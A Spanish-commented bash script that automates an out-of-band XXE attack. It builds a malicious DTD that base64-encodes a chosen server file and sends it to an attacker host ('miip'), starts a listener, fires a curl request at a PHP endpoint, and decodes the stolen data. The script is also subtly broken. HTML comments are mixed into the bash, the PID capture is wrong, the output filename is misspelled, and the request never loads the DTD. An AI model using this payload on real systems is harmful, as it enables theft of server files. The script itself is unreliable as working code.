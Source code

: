 # XXE_OOB
#Metete en el codigo para ver comentado cada comando
#!/bin/bash

echo -ne "\n[+] Introduce el archivo a leer: " && read -r miarchivo
<!--e para aplicar el salto de linea (caracteres especiales
-n para poder meter el input en la misma linea que el echo
 read lee el input del usuari y lo guarda en mi rchivo
-r para que acepte espacios y de todo, guarde el input literal-->

malicious_dtd=""" # triple comilla para pillar varias lineas de codigo
<!--ojo por que hayque escapar las comillas con \-->
<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=$miarchivo\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://miip/?file=%file; '>\"> 
<!--ojo por que al crear una entidad dentro de otra entidad, hay que representarla en hexadecimal
 para representar % en hexadecimal se deberia de poner %#x y luego su valor en hexadecimal y luego ;, que es 25 -> &#x25;
 exfil es una entidad dentro de otra 
 ahora habria que llamar a las entidades eval y exfil para que tdo sea ejecutado.-->
%eval;
%exfil;
<!--file no hace falta por que se llama desde exfil-->
"""

echo $malicious_dtd > malicious.dtd
<!--tenemos que volcar todo en el archivo, por que en la peticion se leera de ese archivo-->

python3 -m http.server 80 &>respuesta &
<!--mandamos el sterr y el stdout a respuesta y lo ponemos en segundo plano-->
PID=!$
<!--!$ hace referencia l elemento anterior y si ha sido puesto en segundo plano se guarda si PID-->
sleep 1 
<!--daremos unos segundos a que se levnate el servidor-->


<!--aqui meteremos la peticion, podemos obtenerla dl raw de burpsuite, por ejemplo:-->

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?><root><name>Juan</name><tel>6666666666</tel><email>juan@mola.com</email><password>juan123</password></root>'
<!--s , silencioso, no mostrara output
-X , indica el metodo, en este caso por post
process.php es a donde se hace la petición
-d , incluir datos que queramos que viajen con la peticion-->

cat reponse | grep -oP "/?file=\K[^-*\s]+" | base64 -d

kill -9 $PID
<!--matamos l proceso del PID-->
wait $PID 2>/dev/null
<!--speraremos a que muera el PID y redirigiremos el stout al dev null para no ver el process killed-->




<!--Ahora se guarda y cuando se ejecute, epodremos hacer cat response  ver el output guardado-->


